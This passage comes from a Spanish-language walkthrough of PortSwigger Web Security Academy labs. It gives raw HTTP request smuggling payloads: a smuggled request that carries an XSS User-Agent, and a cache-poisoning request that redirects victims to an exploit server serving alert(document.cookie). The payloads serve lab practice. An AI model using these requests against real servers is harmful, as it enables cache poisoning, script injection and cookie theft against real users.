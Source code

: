 ```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 82
Transfer-Encoding: chunked

0

GET /post?postId=6 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>

asd
```

En caso de que no se dé como resuelto el laboratorio, volver a enviarla hasta conseguirlo (esto se debe a que PortSwigger simula que la víctima navega por el sitio de forma intermitente).

### [Exploiting HTTP request smuggling to perform web cache poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)

#### Solución:

1. Ir al exploit server, poner en el body: alert(document.cookie) y guardar
2. Enviar la siguiente request (reemplazando LABID y EXPLOIT-SERVER-ID):

```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 130
Transfer-Encoding: chunked

0

GET /post/next?postId=6 HTTP/1.1
Host: EXPLOIT-SERVER-ID.web-security-academy.net
Content-Length: 108

foo
```

3. Enviar la siguiente request (reemplazando LABID):

```
GET /post?postId=7 HTTP/1.1
Host: LABID.web-security-academy.net


```

4. Repetir la request del paso 3 para confirmar que se envenenó la cache y siempre se responde con la redirección al exploit server.

### [Exploiting HTTP request smuggling to perform web cache deception](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-deception)
